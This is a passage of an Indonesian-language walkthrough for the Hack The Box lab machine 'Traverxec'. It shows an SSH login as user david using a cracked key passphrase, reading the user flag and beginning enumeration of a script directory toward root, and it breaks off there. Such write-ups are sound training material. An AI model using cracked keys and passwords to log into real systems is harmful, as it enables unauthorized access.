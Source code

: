 ```

```

didapatkan password `hunter` untuk user `david`, kemudian login remote ssh

```
# ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sun Apr 12 04:13:21 2020 from 10.10.14.46
david@traverxec:~$ 
david@traverxec:~$ ls -la
total 36
drwx--x--x 5 david david 4096 Oct 25 17:02 .
drwxr-xr-x 3 root  root  4096 Oct 25 14:32 ..
lrwxrwxrwx 1 root  root     9 Oct 25 16:15 .bash_history -> /dev/null
-rw-r--r-- 1 david david  220 Oct 25 14:32 .bash_logout
-rw-r--r-- 1 david david 3526 Oct 25 14:32 .bashrc
drwx------ 2 david david 4096 Apr 12 04:15 bin
-rw-r--r-- 1 david david  807 Oct 25 14:32 .profile
drwxr-xr-x 3 david david 4096 Oct 25 15:45 public_www
drwx------ 2 david david 4096 Oct 25 17:02 .ssh
-r--r----- 1 root  david   33 Oct 25 16:14 user.txt
david@traverxec:~$ cat user.txt 
7db0b48469....................
david@traverxec:~$ 
```

![user-flag](/assets/images/htb-machine-traversec/user-flag.png)

untuk flag user, dapat di lihat pada user.txt, selanjutnya mendapatkan akses root, dengan melakukan enumeration dari user david. setelah melakukan enumeration pada direktori `bin`

```
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Apr 12 04:15 .
drwx--x--x 5 david david 4096 Oct 25 17:02 ..
-r-------- 1 david david  802 Oct 25 16:26 server-stats.head
-rwx------ 1 david david  363 Oct 25 16:26 server-stats.sh
david@traverxec:~/bin$
```
